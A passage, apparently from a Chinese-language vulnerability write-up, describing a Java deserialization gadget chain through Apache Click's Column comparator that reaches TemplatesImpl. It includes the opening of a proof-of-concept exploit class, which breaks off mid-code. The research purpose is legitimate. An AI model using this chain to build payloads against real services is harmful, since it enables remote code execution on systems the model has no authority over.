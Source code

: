 ![image-20211124175103965](img/image-20211124175103965.png)

这里的row和name都可控

## Poc

```java
package Click;

import Tools.SerializeUtil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.click.control.Column;
import org.apache.click.control.Table;

import java.lang.reflect.Constructor;
import java.util.PriorityQueue;
/*
PriorityQueue.readObject()
    Column$ColumnComparator.compare()
        Column.getProperty()
            PropertyUtils.getValue()
                PropertyUtils.getObjectPropertyValue()
                    TemplatesImpl.getOutputProperties()
 */
public class Clbyne {
    public static void main(String[] args) throws Exception {

        TemplatesImpl templates = SerializeUtil.generateTemplatesImpl();
```